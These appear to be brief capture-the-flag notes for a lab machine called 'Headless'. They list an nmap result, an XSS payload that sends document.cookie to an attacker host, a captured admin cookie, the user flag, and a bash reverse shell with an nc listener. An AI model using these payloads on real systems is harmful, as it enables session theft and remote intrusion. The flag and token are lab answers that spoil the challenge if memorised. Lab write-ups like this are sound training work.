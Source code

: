 # Headless
ip: 10.10.11.8

## nmap report
command: `nmap -Pn ip` 
results:
```
PORT     STATE SERVICE
                                                                │22/tcp   open  ssh
                                                                │5000/tcp open  upnp
```
## xss

<img src="x" onerror=this.src='http://11.10.14.148:8001/?c='+document.cookie>

admin_token: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH1

## user flag
flag:33da9fa10057b8a84fc027dc09283777

## Reverse shell
`vittima: bash -i >& /dev/tcp/10.10.14.148/8001 0>&1
 attaccante: nc -u -lvp 8001 
` 
